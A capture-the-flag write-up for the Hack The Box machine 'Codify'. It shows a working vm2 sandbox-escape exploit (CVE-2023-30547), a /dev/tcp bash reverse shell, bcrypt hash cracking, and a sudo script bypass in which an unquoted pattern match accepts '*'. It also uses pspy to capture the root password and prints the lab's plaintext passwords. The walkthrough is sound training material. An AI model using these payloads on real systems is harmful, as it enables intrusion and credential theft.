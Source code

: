 # Codify

Codify is a easy machine on HTB.

## Enumeration

First we check the open port via **nmap**.

![nmap](./assets/images/nmap.png)


The ports 22, 80 and 3000 are open.
Let's check the port 80 first. For that we need to add the **domain** to our **hosts** file.

```bash
echo "10.10.11.239   codify.htb" | sudo tee -a /etc/hosts
```

![website](./assets/images/website.png)

It's a website in which we can test our **Nest.js** code. So a **sandbox** for Nest.js.
Let's perform dirsearch on this website.

![gobuster](./assets/images/gobuster.png)

## Foothold

Well nothing much, but in the about page it say that the use the **vm2** library. And after a little search we found the [CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547). For the poc there is this payload which allow you to do remote code execution:

```javascript
const {VM} = require("vm2");
const vm = new VM();
const code = `
err = {};
const handler = {
getPrototypeOf(target) {
(function stack() {
new Error().stack;
stack();
})();
}
};
const proxiedErr = new Proxy(err, handler);
try {
throw proxiedErr;
} catch ({constructor: c}) {
c.constructor('return process')().mainModule.require('child_process').execSync('id');
}
`
console.log(vm.run(code));
```

This code will execute the `id` command, but we want a **reverse shell** so we will replace `id` by this:

```bash
bash -c 'exec bash -i &>/dev/tcp/0.0.0.0/0000 <&1'
```

Replace `0.0.0.0` by your **ip** and `0000` by the port of your **netcat** listener use.

![revshell](./assets/images/revshell.png)

We have our revshell as user **svc**!

## User flag

We found a interesting file in `/var/www/contact`. It's a **sqlite3** database.

![file_tickets](./assets/images/file_tickets.png)

Let's open it with the command:
```bash
sqlite3 tickets.db
```
Use `.tables` to show all the tables and `select * from users;` to see what the users tables contain.

![select_users](./assets/images/select_users.png)

Copy the **hash** and paste it to a file. We will use `hashcat` to find the password. First we need to find what **type** of hash we have.
So we will use hashcat in auto mode detection for it.

```bash
hashcat hash -a 0 /usr/share/wordlists/rockyou.txt.gz
```
With "hash" being the file where you past the hash.

![hashcat_detect](./assets/images/hashcat_detect.png)

It seems to be a **bcrypt** hash, so we will use the option `-m 3200`.

```bash
hashcat hash -a 0 -m 3200 /usr/share/wordlists/rockyou.txt.gz
```
![user_password](./assets/images/user_password.png)

And we have it! Let's try to login as **joshua** with `joshua:spongebob1`

```bash
ssh joshua@10.10.11.239
```
![user_flag](./assets/images/user_flag.png)

## Privilege escalation

Check if we can execute some command with root privilege with `sudo -l`.

![sudo_l](./assets/images/sudo_l.png)

And this is the **mysql-backup.sh** file:

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

So the script ask for a password, the **root** password possibly because the user for the database is root. After that it will create a backup directory to dump the database in it and finaly change the permission on the backup directory. There is two problems in this script.
- The first one is how the password verification is handled. If the right parameter is not quoted, `==` sign inside a `[[]]` will perform patern matching comparison rather a strict string comaparison. So when the scripts ask you for the password and you enter `*` it will work.
- The second one is that it use the password from `/root/.creds` and not the password provided by the user to access the database via mysql.

![mysql_password_proof](./assets/images/mysql_password_proof.png)

Yep, input `*` for the password confirmation zork.
Now we will use **pspy** to retrieve the real password. How? Because pspy is a process snooping tool. So we need to install it, launch it and in another **ssh** sessions launch the msql-backup script.

Get pspy in your local machine.
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s
```

Start a python server so we can download the binary to the remote machine.

```bash
python3 -m http.server 8000
```
And curl the file on the remote machine

```bash
curl YOUR_IP:8000/pspy64s --output pspy64s
```

Don't forget to `chmod +x pspy64s` the file. The commad to start pspy is `./pspy64s -i 1`.

![pspy64s](./assets/images/pspy64s.png)

We have the password! Let's try to login a `root:kljh12k3jhaskjh12kjh3`

![root](./assets/images/root.png)
